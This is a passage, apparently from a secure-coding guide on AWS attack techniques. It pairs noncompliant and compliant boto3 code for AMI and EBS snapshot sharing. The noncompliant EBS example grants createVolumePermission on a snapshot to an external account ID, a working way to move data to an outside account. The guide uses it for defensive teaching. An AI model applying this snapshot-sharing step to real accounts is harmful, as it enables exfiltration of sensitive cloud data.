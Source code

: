 ```
    }
)
```

The noncompliant code uses the AWS SDK (boto3) to modify the launch permissions of an AMI and share it with an external AWS account specified by account_id. This code is noncompliant because it allows unauthorized access to the AMI, potentially enabling an attacker to launch instances from the shared image.

Compliant Code:
The compliant code demonstrates how to properly secure AMIs and prevent unauthorized sharing.

```
import boto3

# Create an EC2 client
ec2_client = boto3.client('ec2')

# Define the AMI ID
ami_id = 'ami-01234567890abcdef'

# Revoke public launch permissions from the AMI
ec2_client.reset_image_attribute(
    ImageId=ami_id,
    Attribute='launchPermission'
)
```

The compliant code revokes any public launch permissions from the AMI specified by ami_id by resetting the image attribute. This ensures that the AMI is not accessible to any AWS account other than the one that owns it. By restricting the sharing of AMIs to trusted and authorized accounts only, the risk of unauthorized access and exfiltration is mitigated.




## Exfiltrate EBS Snapshot by Sharing It

Exfiltrating an EBS snapshot by sharing it involves sharing an Amazon Elastic Block Store (EBS) snapshot with an external AWS account, allowing the recipient account to create a new volume from the shared snapshot. This technique can be used to move sensitive data stored in EBS snapshots to an unauthorized account for further analysis or misuse.

Noncompliant Code:
The noncompliant code demonstrates how an attacker can use the AWS SDK to share an EBS snapshot with an external AWS account.

```
import boto3

# Create an EC2 client
ec2_client = boto3.client('ec2')

# Define the snapshot ID
snapshot_id = 'snap-01234567890abcdef'

# Define the AWS account ID to share with
account_id = '012345678901'

# Share the snapshot with the external AWS account
ec2_client.modify_snapshot_attribute(
    SnapshotId=snapshot_id,
    Attribute='createVolumePermission',
    CreateVolumePermission={
        'Add': [{'UserId': account_id}]
    }
)
```